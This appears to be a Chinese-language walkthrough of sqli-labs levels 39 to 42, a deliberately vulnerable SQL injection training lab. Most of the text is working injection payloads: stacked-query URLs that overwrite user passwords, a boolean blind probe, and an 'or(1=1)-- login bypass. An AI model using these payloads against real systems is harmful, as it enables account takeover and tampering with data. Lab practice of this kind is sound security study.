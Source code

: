 ![image-20220924093821321](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220924093821321.png)

使用堆叠注入将id=9的用户密码进行修改

```
http://192.168.235.152/sqli-labs/Less-39/?id=9%20limit%200,1;update%20users%20set%20password=%27123%27%20where%20id=9--+
```

![image-20220924093943621](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220924093943621.png)

修改成功

## 第四十关

尝试拼接正确的payload失败，看源代码，发现加了个括号

![image-20220924095057523](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220924095057523.png)

```
http://192.168.235.152/sqli-labs/Less-40?id=1'and(1=1)or'--
```

堆叠注入

```
http://192.168.235.152/sqli-labs/Less-40?id=1')and(1=1)limit 0,1;update users set password=456 where id=1--+
```

![image-20220924095308686](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220924095308686.png)

## 第四十一关

尝试布尔盲注

```
http://192.168.235.152/sqli-labs/Less-41?id=1 and 1=1 limit 0,1;--+
```

![image-20220924095457367](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220924095457367.png)

四十一关也使用的是堆叠注入，所以直接修改密码

```
http://192.168.235.152/sqli-labs/Less-41?id=1 and 1=1 limit 0,1;update users set password=123 where id=1--+
```

![image-20220924095751326](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220924095751326.png)

## 第四十二关

```
login_user=admin
&login_password='or(1=1)-- 
&mysubmit=Login
```
